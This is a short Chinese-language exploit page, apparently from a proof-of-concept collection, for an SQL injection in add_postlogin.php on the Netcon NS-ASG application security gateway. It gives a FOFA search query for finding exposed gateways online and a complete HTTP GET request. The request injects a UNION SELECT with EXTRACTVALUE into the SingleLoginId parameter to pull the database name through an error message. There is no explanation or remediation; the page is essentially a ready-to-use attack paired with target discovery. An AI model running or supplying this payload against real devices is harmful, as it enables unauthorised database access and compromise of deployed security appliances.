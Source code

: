 ## 网康科技NS-ASG应用安全网关add_postlogin.php存在SQL注入漏洞


## fofa
```
app="网康科技-NS-ASG安全网关"
```


## poc
```
GET /admin/add_postlogin.php?SingleLoginId=1+UNION+ALL+SELECT+EXTRACTVALUE(1,concat(0x7e,(select+database()),0x7e)) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close

```
